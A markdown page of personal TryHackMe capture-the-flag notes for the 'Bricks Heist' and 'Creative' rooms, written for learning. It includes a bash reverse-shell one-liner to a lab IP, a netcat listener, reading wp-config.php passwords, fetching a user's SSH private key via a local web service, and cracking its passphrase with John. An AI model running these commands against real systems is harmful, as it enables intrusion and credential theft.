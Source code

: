 ```yaml
---
layout: default
title: "TryHackMe Notes"
---
```


# 🏴‍☠️ TryHackMe Notes

This page contains my notes on TryHackMe challenges and walkthroughs.

### TryHack3M: Bricks Heist
- Look at the bricks.thm page and view the page source, they seem to be using WordPress.
- Do: `wpscan --url <target_url>` (To find WordPress vulnerabilities)
    - We try to use it but we can't without disabling TLS certificate checks:
        - `wpscan --url <target_url> --disable-tls-checks`
- Finds a theme: bricks with version: 1.9.5. Simply, Google it for any vulnerability present.
    - `wordpress bricks 1.9.5 exploit github`
- Found an exploit and downloading it.
    - Making the exploit file executable.
    - Downloading some requirements: `pip3 install alive-progress`
    - `python3 exploit.py -u https://bricks.thm`
- How we have shell and can "cat" the .txt file for the FLAG.
- Reverse shell command: 
    - `bash -c 'exec bash -i &>dev/tcp/10.21.135.229/4444 <&1'`
- On the listening side: `nc -lvnp 4444`
- Found an interesting file "wp-config.php" where we can find the passwords.
- Go to: `https://bricks.thm/phpmyadmin`
- To find the suspicious process on Linux: `systemctl list-units --type=service --state=running`
- Cat the suspicious process: `systemctl cat ubuntu.service` (The service name is the third answer)
- Executing from `/lib/NetworkManager` directory.
    - Let's head on to that, we may get the answers for the next questions: `cd /lib/NetworkManager`
    - Only `inet.conf` file has read-only permissions. Let's `cat` it out (This is the log file name of the miner instance?)
    - It is better to use `head`, instead of `cat`, to see the contents.
    - We can easily see the ID present over there which seems to be encoded. USE CyberChef to decode (with magic).
    - It appears to be two wallet addresses! (One of these is the answer)
        - Verified with `blockchair.com`.
        - Go into details and find who is being sent to.
        - Copy and paste into Google and you will find cyber-related designations.

### Creative
- `nmap -A -T4 -p- --min-rate 5000 10.10.21.158`
    - `-A` for OS, scripts, and service versions.
    - `-T4` for faster scan — can be level 1–5.
    - `-p-` for scanning all ports.
    - `--min-rate 5000` — to speed up scan.
- `http://10.10.21.158`
    - Redirected to `creative.thm`.
- `nano /etc/hosts`
    - `<IP>  creative.thm`
- Now we can go to: `http://creative.thm`
- `ffuf -u http://creative.thm/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -e .html,.txt,.php,.sh,.js -t 50`
    - Found nothing.
- `ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u http://creative.thm -H "Host: FUZZ.creative.thm" -mc 200,302,403,401`
    - We find the beta subdomain.
- Add `beta.creative.thm` to `/etc/hosts`.
- Running a script to see all services: `portbrute.py`
    - We find 1337, and 80.
- We do: `http://localhost:1337`
    - We have another web service that seems to have Directory listing enabled.
    - Maybe we can access `/etc/passwd`?
- We learn about a user called “saad” (UID 1000)!
    - Maybe we can find Saad’s SSH key and use it to log in via SSH?
    - `http://localhost:1337/home/saad/.ssh/id_rsa`
- Save the key to our machine and login:
    - `ssh -i id_rsa saad@creative.thm`
- Asks for a passphrase. We will use John to crack the passphrase:
    - `ssh2john id_rsa > forjohn` (this turns the key into a hash so John can understand).
    - `john --wordlist=/usr/share/wordlists/rockyou.txt forjohn` (to crack the passphrase).
    - `john forjohn --show` (to show the passphrase).
- `ssh -i id_rsa saad@creative.thm`

